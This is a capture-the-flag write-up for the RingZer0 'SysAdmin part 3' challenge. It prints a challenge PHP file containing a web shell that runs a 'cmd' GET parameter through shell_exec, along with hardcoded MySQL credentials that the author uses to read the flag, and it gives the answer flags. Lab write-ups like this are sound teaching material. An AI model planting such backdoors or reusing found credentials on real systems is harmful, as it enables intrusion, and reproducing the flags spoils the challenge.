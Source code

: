 # SysAdmin part 3

__PROBLEM__

Dig for flag.

User: architect
Password: architect password found in previous challenge

ssh architect@challenges.ringzer0team.com -p 10152

__SOLUTION__

password is : `FLAG-232f99b4178bdc7fef7eb1f0f78831f9`

As in the problem we have to dig for the flag. Best way to start is with `find`
```bash
find / -user architect
```
This will give you lot of output along with lot's of permission denied and proc so a good way to clean output is:

```bash
architect@lxc-sysadmin:~$ find / -user architect 2>&1 | egrep -v "Permission denied|proc"
/var/www/index.php
/home/architect
/home/architect/.bashrc
/home/architect/.bash_logout
/home/architect/.profile
/dev/pts/5
```

For obvious reason we ignore all the `/home/`. So start with `/var/www/index.php`.

```bash
architect@lxc-sysadmin:~$ cat /var/www/index.php
<?php
if(isset($_GET['cmd'])) {
  $res = shell_exec(urldecode($_GET['cmd']));
  print_r(str_replace("\n", '<br />', $res));
  exit();
}
$info = (object)array();
$info->username = "arch";
$info->password = "asdftgTst5sdf6309sdsdff9lsdftz";
$id = 1003;

function GetList($id, $info) {
        $id = 2;
        $link = mysql_connect("127.0.0.1", $info->username, $info->password);
        mysql_select_db("arch", $link);
        $result = mysql_query("SELECT * FROM arch");
        $output = array();
        while($row = mysql_fetch_assoc($result)) {
                array_push($output, $row);
        }
        var_dump($output);
        return $output;
}

$output = shell_exec('id');
echo "<pre>$output</pre>";

?>
<?php
//ENTER THE RELEVANT INFO BELOW
$mysqlDatabaseName ="arch";
$mysqlUserName ="arch";
$mysqlPassword ="asdftgTst5sdf6309sdsdff9lsdftz";
$mysqlHostName ="127.0.0.1";
$mysqlExportPath ="/var/tmp/ar.sql";

//DO NOT EDIT BELOW THIS LINE
//Export the database and output the status to the page
$command='mysqldump --opt -h' .$mysqlHostName .' -u' .$mysqlUserName .' -p' .$mysqlPassword .' ' .$mysqlDatabaseName .' > ' .$mysqlExportPath;
exec($command,$output=array(),$worked);
switch($worked){
case 0:
echo 'Database <b>' .$mysqlDatabaseName .'</b> successfully exported to <b>~/' .$mysqlExportPath .'</b>';
break;
case 1:
echo 'There was a warning during the export of <b>' .$mysqlDatabaseName .'</b> to <b>~/' .$mysqlExportPath .'</b>';
break;
case 2:
echo 'There was an error during export. Please check your values:<br/><br/><table><tr><td>MySQL Database Name:</td><td><b>' .$mysqlDatabaseName .'</b></td></tr><tr><td>MySQL User Name:</td><td><b>' .$mysqlUserName .'</b></td></tr><tr><td>MySQL Password:</td><td><b>NOTSHOWN</b></td></tr><tr><td>MySQL Host Name:</td><td><b>' .$mysqlHostName .'</b></td></tr></table>';
break;
}
?>



<!DOCTYPE html>
<html>
        <head>
                <title>Architect list query</title>
        </head>
        <body>
                <form action="" method="GET">
                        <input type="text" name="id" />
                        <input type="submit" value="search">
                </form>
                <?php foreach(GetList(1003, $info) as $item):
                        echo $item["id"] . ":" . $item["arch"] . "<br />\r\n";
                endforeach; ?>
        </body>
</html>
```

From above output we see it is some kind of `mysql` username and password so let's get into `mysql`.

```bash
architect@lxc-sysadmin:~$ mysql -u arch -p
Enter password: `asdftgTst5sdf6309sdsdff9lsdftz`
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1241
Server version: 5.7.22-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| arch               |
+--------------------+
2 rows in set (0.00 sec)

mysql> use arch;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_arch |
+----------------+
| arch           |
| flag           |
+----------------+
2 rows in set (0.00 sec)

mysql> select * from flag;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| FLAG-55548fdb24a6ef248d8fdfde2720f6bd |
+---------------------------------------+
1 row in set (0.00 sec)
```

FLAG - `FLAG-55548fdb24a6ef248d8fdfde2720f6bd`
